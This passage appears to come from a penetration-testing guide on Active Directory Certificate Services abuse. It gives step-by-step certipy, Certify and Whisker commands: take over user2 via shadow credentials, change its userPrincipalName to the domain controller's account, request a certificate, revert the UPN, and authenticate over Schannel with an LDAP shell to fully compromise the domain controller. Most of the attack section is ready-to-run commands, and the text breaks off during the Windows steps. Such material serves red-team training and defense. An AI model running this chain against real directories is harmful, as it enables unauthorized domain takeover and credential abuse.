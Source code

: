 ```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "DC\$@$DOMAIN"
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authentication with the obtained certificate will be performed through Schannel. The `-ldap-shell` option can be used to execute some LDAP requests and, for example, realised an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip "$DC_IP" -ldap-shell
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
